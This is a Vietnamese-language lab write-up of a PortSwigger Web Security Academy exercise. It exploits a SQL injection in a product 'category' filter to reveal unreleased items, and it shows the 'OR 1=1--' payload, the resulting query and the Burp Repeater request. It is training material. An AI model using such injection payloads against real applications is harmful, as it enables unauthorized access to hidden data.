



# Write-up: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Tổng quan
Write-up này ghi lại quá trình khai thác lỗ hổng SQL injection trong bài lab trên PortSwigger Web Security Academy, với mục tiêu làm cho ứng dụng hiển thị một hoặc nhiều sản phẩm chưa được phát hành. 
### Mục tiêu
Hiển thị các sản phẩm chưa phát hành bằng cách khai thác lỗ hổng SQL injection
### Công cụ sử dụng
- BurpSuite Community
- Firefox Browser
### Các bước thực hiện 
1. **Thu Thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) và thêm dấu `'` để kích hoạt lỗi SQL:
  - **Kết quả**: Lỗi SQL xuất hiện, xác nhận lỗ hổng.
    

2. **Tạo Payload**
- Dựa trên truy vấn gốc (`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`) tạo payload để bỏ qua điều kiện released = 1:
    ```
    filter?category=Gifts'OR 1=1--
    ```
- Truy vấn trở thành:
    ```
    SELECT * FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1
    ```
    - `OR 1=1` bỏ qua điều kiện `released = 1`

3. **Khai thác (Exploitation)**
- Gửi payload qua Burp Repeater:
    ```
    GET /filter?category=Gifts'OR+1=1-- HTTP/2
    ```
    -**Kết quả**: Trang hiển thị toàn bộ sản phẩm bao gồm cả `released = 0`
    
    

### Bài học rút ra
- Thành thạo khai thác SQL injection cơ bản bằng cách thao túng điều kiện `WHERE` để truy xuất dữ liệu ẩn.
- Nhận thức tầm quan trọng của kiểm tra đầu vào trong ngăn chặn SQLi.
### Tài liệu tham khảo
- PortSwigger: SQL Injection
- PortSwigger: SQL Injection Cheat Sheet
### Kết luận
Lab này là bước khởi đầu để tôi hiểu và khai thác lỗ hổng SQL injection cơ bản. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.
